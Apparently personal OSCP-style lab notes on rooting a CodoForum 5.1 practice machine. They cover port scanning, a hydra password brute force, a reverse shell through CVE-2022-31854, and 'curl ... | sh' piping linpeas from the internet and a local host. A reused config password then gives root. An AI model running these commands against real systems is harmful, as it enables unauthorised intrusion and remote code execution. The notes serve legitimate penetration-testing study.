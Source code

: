 Given Target: 192.168.186.23

# Recon
nmap --top-ports 4000 -T5 -oN openPorts.txt 192.168.186.23
	Nmap scan report for 192.168.186.23
	Host is up (0.065s latency).
	Not shown: 3998 filtered tcp ports (no-response)
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http

nmap -p22,80 -T4 -sC -sV -oN services.txt 192.168.186.23
	Nmap scan report for 192.168.186.23
	Host is up (0.056s latency).
	Bug in http-generator: no string output.
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
	|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
	|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
	80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
	|_http-title: All topics | CODOLOGIC
	| http-cookie-flags: 
	|   /: 
	|     PHPSESSID: 
	|_      httponly flag not set
	|_http-server-header: Apache/2.4.41 (Ubuntu)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

dirbuster + dirb

dirb http://192.168.186.23
	---- Scanning URL: http://192.168.184.23/ ----
	==> DIRECTORY: http://192.168.184.23/admin/                                                                                                                
	==> DIRECTORY: http://192.168.184.23/cache/ 

Main site
	The only user available to login in the front-end is admin with the password that you set during the installation.
	Admin page login page found
	![[Pasted image 20231031080932.png]]

so user is admin and password is ???

use burp to find the http request to format the hydra command 

Use xHydra to structure the general command and 

hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.184.23 http-post-form "/admin/?page=login:username=^USER^&password=^PASS^:Invalid Username or Password"

xhydra finds it to be admin:admin
![[Pasted image 20231031090736.png]]

# Weaponization

searchsploit codo 5.1 
	 Exploit Title                            |  Path
	------------------------------------------ ---------------------------------
	CodoForum 2.5.1 - Arbitrary File Download | php/webapps/36320.txt
	CodoForum v5.1 - Remote Code Execution (R | php/webapps/50978.py
	------------------------------------------ ---------------------------------
	Shellcodes: No Results
	Papers: No Results

Now look at the RCE and use it
	
	CODOFORUM V5.1 ARBITRARY FILE UPLOAD TO RCE(Authenticated)
	
	CVE 2022-31854
	Exploit found and written by: @vikaran101
	
	[*] Example usage: ./exploit.py -t [target url] -u [username] -p [password] -i [listener ip] -n [listener port]
	[*] Help menu: ./exploit.py -h OR ./exploit.py --help
	 kali  🏡  OSCP  codo                                                                                                                                   
	 python 50978.py -t 192.168.184.23/admin/?page=login -u admin -p admin -i 192.168.45.188 -n 4444


Internet says bad exploit script so do it manually via uploading a revshell.php as the image

hostname -I
	192.168.45.188

nc -nlvp 4444

caught the shell

# Priv Esc

now to upgrade shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

move to tmp
	cd /tmp

Now to get linpeas from web
	curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

From Python on LAN
	sudo python3 -m http.server 80 # Host
	curl 10.10.10.10/linpeas.sh | sh # Victim

Linpeas is running
	╔══════════╣ Searching passwords in config PHP files
	/var/www/html/sites/default/config.php:  'password' => 'FatPanda123', 

www-data@codo:/tmp$ su root
su root
Password: FatPanda123

root@codo:/tmp# whoami
whoami
root
root@codo:/tmp# ls
ls
linpeas.sh  tmux-33
root@codo:/tmp# cd
cd
root@codo:~# ls
ls
email2.txt  proof.txt  snap
root@codo:~# cat proof.txt
cat proof.txt
47e66deafc9df2b49d67474445dcdbae

Boot2Root